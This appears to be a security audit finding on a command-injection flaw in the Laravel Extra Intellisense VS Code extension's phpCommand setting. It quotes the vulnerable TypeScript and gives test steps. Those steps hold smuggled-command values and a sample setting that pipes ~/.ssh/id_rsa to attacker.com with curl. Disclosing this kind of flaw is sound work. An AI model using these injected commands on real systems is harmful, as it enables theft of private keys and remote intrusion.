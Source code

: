 ```typescript
static async runPhp(code: string, description: string|null = null) : Promise<string> {
    code = code.replace(/\"/g, "\\\"");
    // Some escaping for Unix platforms
    if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
        code = code.replace(/\$/g, "\\$");
        code = code.replace(/\\\\'/g, '\\\\\\\\\'');
        code = code.replace(/\\\\"/g, '\\\\\\\\\"');
    }
    // Get the user-defined PHP command template
    let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";

    // Simply replace {code} with the PHP code to execute
    let command = commandTemplate.replace("{code}", code);

    // Execute the command directly using child_process.exec
    let out = new Promise<string>(function (resolve, error) {
        cp.exec(command,
            { cwd: vscode.workspace.workspaceFolders && vscode.workspace.workspaceFolders.length > 0 ? vscode.workspace.workspaceFolders[0].uri.fsPath : undefined },
            function (err, stdout, stderr) {
                // Process result...
            }
        );
    });
    return out;
}
```

The issue is that while the code parameter is escaped, there is no validation or sanitization of the `commandTemplate` itself. If a user (or an attacker who can modify the user's settings) sets the phpCommand to something like `php -r "{code}" && malicious-command`, the malicious command will be executed whenever the extension runs PHP code.

This method is called by various provider classes in the extension that periodically run PHP code to gather information about the Laravel application, such as in `ConfigProvider.ts`, `RouteProvider.ts`, etc.

The use of `cp.exec()` runs the command through a shell, which creates opportunity for command injection if the escaping is inadequate.

### Security Test Case
1. Install the Laravel Extra Intellisense extension in VS Code
2. Open the VS Code settings (Ctrl+,)
3. Search for "LaravelExtraIntellisense.phpCommand"
4. Change the value to: `php -r "{code}" && echo "Vulnerability demonstrated" > /tmp/vulnerable.txt`
5. Open a Laravel project in VS Code
6. The extension will automatically start gathering data for autocompletion
7. Check if the file `/tmp/vulnerable.txt` was created, containing the text "Vulnerability demonstrated"
8. If the file exists, the vulnerability is confirmed
9. On Windows, you could use: `php -r "{code}" & echo Vulnerability demonstrated > %TEMP%\vulnerable.txt`
10. For a more sophisticated attack, a command that exfiltrates data could be used:
    ```
    "LaravelExtraIntellisense.phpCommand": "php -r \"{code}\" && curl -d \"data=$(cat ~/.ssh/id_rsa)\" https://attacker.com/collect"
    ```

